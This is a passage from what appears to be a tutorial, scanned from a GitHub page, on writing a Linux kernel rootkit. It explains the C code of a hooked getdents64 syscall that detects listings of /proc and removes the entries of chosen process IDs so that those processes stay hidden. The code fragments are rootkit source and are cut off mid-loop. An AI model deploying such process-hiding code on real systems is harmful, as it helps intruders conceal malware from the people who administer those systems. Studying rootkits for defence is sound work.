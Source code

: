 ```c
		kfree(kdirent);
		return ret;
```
Those kernel space and user space variables will mostly be used in `copy_from_user` and `copy_to_user` functions as we are going to pass arguments from _user space variable_ to _kernel space variable_ and vice-versa. Being in user space we can't read kernel space pointers/variables and vice-versa, that's the reason why `copy_from_user` and `copy_to_user` functions will be used.\
In this scenario, `copy_from_user` is used to pass the name of the passed _directory name_ to kernel mode variable, _kdirent_ and then we will hide whatever we want to hide and lastly, we will send the output using `copy_to_user` to the user space variable, _dirent_.

For the case of ***kzalloc***, `GFP_KERNEL` is _GFP flag_ which is used for kernel-internal allocations, [source: elixir.bootlin](https://elixir.bootlin.com/linux/v5.11/source/include/linux/gfp.h#L245).

The last thing, which need explanation is the <ins>error part</ins>. If some error occurs, like sending <ins>wrong</ins> `pid` number to kernel space, we will free the allocated memory pointed by the kdirent pointer and would return the error which actually occured.

Next part:
```c
// Storing the inode value of the required directory(or pid) 
d_inode = current->files->fdt->fd[fd]->f_path.dentry->d_inode;

if (d_inode->i_ino == PROC_ROOT_INO && !MAJOR(d_inode->i_rdev)
	/*&& MINOR(d_inode->i_rdev) == 1*/)
	proc = 1;
	...
```
I paraphrased from [jm33.me](https://jm33.me/linux-rootkit-for-fun-and-profit-0x02-lkm-hide-filesprocs.html):\
This piece of code checks if current `fd` points to proc fs, if yes, we say we are `ls`ing a `/proc` dir. `i_ino` is a inode number, representing its index number in linux vfs (virtual filesystem), `PROC_ROOT_INO` is defined as 1: [elixir.bootlin](https://elixir.bootlin.com/linux/v5.11/source/include/linux/proc_ns.h#L42).
```c
/*
 * We always define these enumerators
 */
enum {
	PROC_ROOT_INO		= 1,
	PROC_IPC_INIT_INO	= 0xEFFFFFFFU,
	PROC_UTS_INIT_INO	= 0xEFFFFFFEU,
	PROC_USER_INIT_INO	= 0xEFFFFFFDU,
	PROC_PID_INIT_INO	= 0xEFFFFFFCU,
	PROC_CGROUP_INIT_INO	= 0xEFFFFFFBU,
	PROC_TIME_INIT_INO	= 0xEFFFFFFAU,
};
```
That means, if `i_ino` of any inode is same as `PROC_ROOT_INO`, its name will be `/proc`.
   
The final part of the getdents64 syscall:
```c
	// Changes which we will do
	while (offset < ret)
	{
	dir = (void *)kdirent + offset;

	if ((proc && is_invisible(simple_strtoul(dir->d_name, NULL, 10))))
	{
		if (dir == kdirent)
		{
			ret -= dir->d_reclen;
			memmove(dir, (void *)dir + dir->d_reclen, ret);
			continue;
		}
```
